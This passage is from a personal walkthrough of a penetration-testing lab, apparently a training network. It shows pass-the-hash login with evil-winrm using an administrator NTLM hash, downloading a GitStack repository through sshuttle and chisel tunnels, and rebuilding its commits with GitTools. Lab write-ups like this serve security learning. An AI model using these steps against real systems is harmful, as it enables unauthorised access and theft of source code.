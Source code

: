 
So rather than going and simply fuzzing we will take a you turn and simply download the source code locally aka move laterally.

Note that we have both the sshuttle and chisel running in order to access the personal webpage
![[Pasted image 20240101153914.png]]
![[Pasted image 20240101153848.png]]
![[Pasted image 20240101153858.png]]



```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```
![[Pasted image 20240101153504.png]]


```
C:\GitStack\repositories\Website.git
```

Will pop up one more shell
```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```

```
download Website.git
```
![[Pasted image 20240101155955.png]]
It sure took a lot of time to download this file b/w 2 proxy's but in the end we are able to download it.

```
mv Website.git .git
```
![[Pasted image 20240101160448.png]]


 the server doesn't need to store the easily readable versions of the files, this means that what we've downloaded isn't actually the full repository, so much as the building blocks we can use to recreate the repo (which is exactly what happens when using `git clone` to create a local copy of a repo!).

In order to extract the information from the repository, we use a suite of tools called GitTools.
```
git clone https://github.com/internetwache/GitTools
```

Git-Tools have 3 tools:
Dumper 
Extractor
Finder

So Extractors fits out requirement so will be using it from now.
```
./extractor.sh REPO_DIR DESTINATION_DIR
```
```
./extractor.sh ../../../Website.git ../../../Website
```
![[Pasted image 20240101163648.png]]
So let's analize what happened we simply download a website.git folder
And make .git folder inside that folder containing the same contents as well as git clone git tools in that only.



This is the output that we want
![[Pasted image 20240101163815.png]]

Each of these corresponds to a commit; however, as mentioned previously, these are not sorted by date.

![[Pasted image 20240104210916.png]]
![[Pasted image 20240104210957.png]]

```
separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"
```
![[Pasted image 20240104211111.png]]

